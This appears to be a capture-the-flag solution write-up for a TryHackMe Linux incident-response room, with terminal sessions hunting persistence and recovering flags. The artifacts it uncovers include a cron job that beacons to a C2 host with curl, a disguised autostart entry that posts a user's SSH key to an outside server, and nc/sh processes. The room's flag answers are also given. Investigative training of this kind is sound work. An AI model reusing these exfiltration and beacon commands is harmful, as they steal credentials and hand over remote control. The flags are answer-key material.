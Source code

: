 
# Solución 
PATH: command not found
investigator@tryhackme:~$ export PATH=/mnt/usb/bin:/mnt/usb/sbin
investigator@tryhackme:~$ export LD_LIBRARY_PATH=/mnt/usb/lib:/mnt/usb/lib64
investigator@tryhackme:~$ PATH LD_LIBRARY_PATH check-env
PATH: command not found
investigator@tryhackme:~$ check-env
THM{8c860435f00c943c21f6b6e0f1b2f854}
investigator@tryhackme:~$ 

investigator@tryhackme:~$ pstree 
systemd─┬─ModemManager───2*[{ModemManager}]
        ├─NetworkManager───2*[{NetworkManager}]
        ├─accounts-daemon───2*[{accounts-daemon}]
        ├─acpid
        ├─2*[agetty]
        ├─amazon-ssm-agen───8*[{amazon-ssm-agen}]
        ├─at-spi-bus-laun─┬─dbus-daemon
        │                 └─3*[{at-spi-bus-laun}]
        ├─at-spi2-registr───2*[{at-spi2-registr}]
        ├─atd
        ├─avahi-daemon───avahi-daemon
        ├─b4ckd00rftw.sh───sleep
        ├─b64.sh───sleep
        ├─cron───cron───sh───abzkd83o4jakxld─┬─cat
        │                                    ├─nc
        │                                    └─sh
        ├─cups-browsed───2*[{cups-browsed}]
        ├─cupsd
        ├─dbus-daemon
        ├─irqbalance───{irqbalance}
        ├─2*[kerneloops]
        ├─lightdm─┬─Xorg───{Xorg}
        │         ├─lightdm─┬─lightdm-greeter───slick-greeter───3*[{slick-gre+
        │         │         └─2*[{lightdm}]
  GNU nano 4.8             /tmp/crontab.iyxhzm/crontab              Modified  
/etc/cron.hourly/beacon# Edit this file to introduce tasks to be run by cron.
# 
# Each task to run has to be defined through a single line
  GNU nano 4.8               /etc/cron.hourly/beacon                Modified  
http://c2.intelligent-software.thm:8310/beacon#!/bin/bash

curl http://c2.intelligent-software.thm:8310/beacon



investigator@tryhackme:~$ 
investigator@tryhackme:/home$ ls
b4ckd00rftw  bob      elijah    investigator  ubuntu
bill         eduardo  franklin  janice
investigator@tryhackme:/home$ cd elijah
investigator@tryhackme:/home/elijah$ ls
investigator@tryhackme:/home/elijah$ ls -la
total 36
drwxr-xr-x  3 elijah elijah 4096 Mar 13  2024 .
drwxr-xr-x 11 root   root   4096 Mar 13  2024 ..
-rw-------  1 elijah elijah  181 Mar 13  2024 .bash_history
-rw-r--r--  1 elijah elijah  220 Mar 12  2024 .bash_logout
-rw-r--r--  1 elijah elijah 3771 Mar 12  2024 .bashrc
-rwxrwxr-x  1 elijah elijah   58 Mar 12  2024 .flag.sh
drwxrwxr-x  3 elijah elijah 4096 Mar 12  2024 .local
-rw-r--r--  1 elijah elijah  807 Mar 12  2024 .profile
-rw-rw-r--  1 elijah elijah   66 Mar 13  2024 .selected_editor
investigator@tryhackme:/home/elijah$ cat .flag.sh
#!/bin/bash

echo "THM{4682786cf2d92f01c4d30a2bbf4621f7}"
investigator@tryhackme:/home/elijah$ 


Utilice **pspy64** para supervisar las ejecuciones que se producen a través del sistema. ¿Cuál es el valor de la marca descodificada que se repite cada 15 segundos?

'VEhNezg1MWE5ODE0NDVkYmZiOTQ4NWMzNzcxNTEwYTUzNTY4fQ=='

THM{851a981445dbfb9485c3771510a53568}


investigator@tryhackme:~$ sudo journalctl | grep b4ckd00rftw

THM{053c12e620acea8a77b4bdcba578ca19}

bill         eduardo  franklin  janice
investigator@tryhackme:/home$ cd janice
investigator@tryhackme:/home/janice$ ls
abzkd83o4jakxld.sh
investigator@tryhackme:/home/janice$ ls -la
total 48
drwxr-xr-x  5 janice janice 4096 Mar 13  2024 .
drwxr-xr-x 11 root   root   4096 Mar 13  2024 ..
-rw-------  1 janice janice  536 Mar 13  2024 .bash_history
-rw-r--r--  1 janice janice  220 Mar 12  2024 .bash_logout
-rw-r--r--  1 janice janice 3771 Mar 12  2024 .bashrc
drwxrwxr-x  3 janice janice 4096 Mar 13  2024 .config
drwxrwxr-x  3 janice janice 4096 Mar 12  2024 .local
-rw-r--r--  1 janice janice  807 Mar 12  2024 .profile
-rw-rw-r--  1 janice janice   66 Mar 12  2024 .selected_editor
drwx------  2 janice janice 4096 Mar 13  2024 .ssh
-rw-------  1 janice janice  892 Mar 13  2024 .viminfo
-rwxrwxr-x  1 janice janice  380 Mar 13  2024 abzkd83o4jakxld.sh
investigator@tryhackme:/home/janice$ cd .config
investigator@tryhackme:/home/janice/.config$ ls
autostart
investigator@tryhackme:/home/janice/.config$ ls -la
total 12
drwxrwxr-x 3 janice janice 4096 Mar 13  2024 .
drwxr-xr-x 5 janice janice 4096 Mar 13  2024 ..
drwxrwxr-x 2 janice janice 4096 Mar 13  2024 autostart
investigator@tryhackme:/home/janice/.config$ cd autostar
-bash: cd: autostar: No such file or directory
investigator@tryhackme:/home/janice/.config$ cd autostart
investigator@tryhackme:/home/janice/.config/autostart$ ls-la
ls-la: command not found
investigator@tryhackme:/home/janice/.config/autostart$ ls -la
total 12
drwxrwxr-x 2 janice janice 4096 Mar 13  2024 .
drwxrwxr-x 3 janice janice 4096 Mar 13  2024 ..
-rw-rw-r-- 1 janice janice  189 Mar 13  2024 keygrabber.desktop
investigator@tryhackme:/home/janice/.config/autostart$ cat keygrabber.desktop
[Desktop Entry]
Type=Application
Name=Standard Desktop Configuration (DO NOT MODIFY)
Exec=/bin/bash -c "curl -X POST -d '/home/janice/.ssh/id_rsa' http://aabab.bes
t-it-services.thm/id_rsa"
investigator@tryhackme:/home/janice/.config/autostart$ ^C
investigator@tryhackme:/home/janice/.config/autostart$ cd ..
investigator@tryhackme:/home/janice/.config$ cd ..
investigator@tryhackme:/home/janice$ cd.

Command 'cd.' not found, did you mean:

  command 'cdp' from deb irpas (0.10-7)
  command 'cdw' from deb cdw (0.8.1-1build4)
  command 'cdi' from deb cdo (1.9.9~rc1-1)
  command 'cd5' from deb cd5 (0.1-4)
  command 'cdo' from deb cdo (1.9.9~rc1-1)
  command 'cde' from deb cde (0.1+git9-g551e54d-1.1build1)
  command 'cdb' from deb tinycdb (0.78build1)

Try: sudo apt install <deb name>

investigator@tryhackme:/home/janice$ cd ..
investigator@tryhackme:/home$ ls
b4ckd00rftw  bob      elijah    investigator  ubuntu
bill         eduardo  franklin  janice
investigator@tryhackme:/home$ cd frankiln 
-bash: cd: frankiln: No such file or directory
investigator@tryhackme:/home$ cd franklin 
investigator@tryhackme:/home/franklin$ ls -la
total 36
drwxr-xr-x  4 franklin franklin 4096 Mar 13  2024 .
drwxr-xr-x 11 root     root     4096 Mar 13  2024 ..
-rw-------  1 franklin franklin  470 Mar 13  2024 .bash_history
-rw-r--r--  1 franklin franklin  220 Mar 12  2024 .bash_logout
-rw-r--r--  1 franklin franklin 3771 Mar 12  2024 .bashrc
drwxrwxr-x  3 franklin franklin 4096 Mar 13  2024 .config
drwxrwxr-x  3 franklin franklin 4096 Mar 13  2024 .local
-rw-r--r--  1 franklin franklin  807 Mar 12  2024 .profile
-rw-rw-r--  1 franklin franklin   43 Mar 13  2024 .tmux_history
investigator@tryhackme:/home/franklin$ cd .config
investigator@tryhackme:/home/franklin/.config$ ls -la
total 12
drwxrwxr-x 3 franklin franklin 4096 Mar 13  2024 .
drwxr-xr-x 4 franklin franklin 4096 Mar 13  2024 ..
drwxrwxr-x 2 franklin franklin 4096 Mar 13  2024 autostart
investigator@tryhackme:/home/franklin/.config$ cd autostart
investigator@tryhackme:/home/franklin/.config/autostart$ ls -la
total 12
drwxrwxr-x 2 franklin franklin 4096 Mar 13  2024 .
drwxrwxr-x 3 franklin franklin 4096 Mar 13  2024 ..
-rw-rw-r-- 1 franklin franklin   87 Mar 13  2024 netwk.desktop
investigator@tryhackme:/home/franklin/.config/autostart$ cat netwk.desktop
[Desktop Entry]
Type=Application
Name=Show Network Interfaces on Startup
Exec=ifconfig
investigator@tryhackme:/home/franklin/.config/autostart$ 


root@tryhackme:/home/eduardo/.mozilla/firefox/niijyovp.default-release# 
root@tryhackme:/home/eduardo/.mozilla/firefox/niijyovp.default-release# cd ..
root@tryhackme:/home/eduardo/.mozilla/firefox# cd ..
root@tryhackme:/home/eduardo/.mozilla# cd ..
root@tryhackme:/home/eduardo# cd ..
root@tryhackme:/home# ls
b4ckd00rftw  bob      elijah    investigator  ubuntu
bill         eduardo  franklin  janice
root@tryhackme:/home# cd investigator 
root@tryhackme:/home/investigator# python3 dumpzilla.py /home/eduardo/.mozilla
/firefox/niijyovp.default-release/ --Bookmarks | grep THM
URL: https://tryhackme.com/?flag=THM{5d5cb0ffe8369ab08f1e90aa9e9bc24e}
Title: THM{5d5cb0ffe8369ab08f1e90aa9e9bc24e}
URL: https://tryhackme.com/?flag=https://tryhackme.com?flag=THM{5d5cb0ffe8369a
b08f1e90aa9e9bc24e}
root@tryhackme:/home/investigator#  THM{5d5cb0ffe8369ab08f1e90aa9e9bc24e}^C
root@tryhackme:/home/investigator# 

# Notas 


